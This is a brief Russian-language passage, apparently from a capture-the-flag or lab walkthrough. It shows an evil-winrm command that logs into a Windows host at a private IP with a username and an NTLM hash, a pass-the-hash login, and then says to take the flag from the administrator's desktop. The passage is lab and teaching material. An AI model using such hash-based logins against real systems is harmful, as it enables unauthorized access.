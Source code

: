 Подключаемся к тачке через evil-winRM
```
evil-winrm -i 10.10.0.44 -u user -H 'effe7598f078c67d6d59010c908a8f58'
```
Затем забираем флаг с рабочего стола администратора